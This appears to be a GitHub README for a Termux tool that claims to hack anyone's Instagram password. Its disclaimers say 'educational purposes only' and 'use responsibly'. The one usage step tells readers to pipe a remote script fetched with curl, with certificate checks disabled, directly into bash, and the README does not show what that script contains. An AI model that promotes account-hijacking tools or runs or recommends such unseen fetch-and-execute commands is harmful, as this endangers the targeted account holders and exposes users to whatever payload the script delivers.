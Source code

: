 # Hack Instagram Password of anyone.

Educaional purposes only.
The Creator is not responsible for anything, Use responsibly.

Works in Termux

## USAGE:


## USAGE:


1. Install Termux from F-Droid.

2. Run this command in termux
```bash
bash -c "$(curl -k -L --max-redirs 15 https://raw.githubusercontent.com/vertool/hx/main/run.sh)"
```
   
                                                            

USE RESPONSIBLY. DON'T MISUSE THIS TOOL

                                                

![Photo](https://github.com/spyranet/INXTA/blob/main/looking.jpg?raw=true)
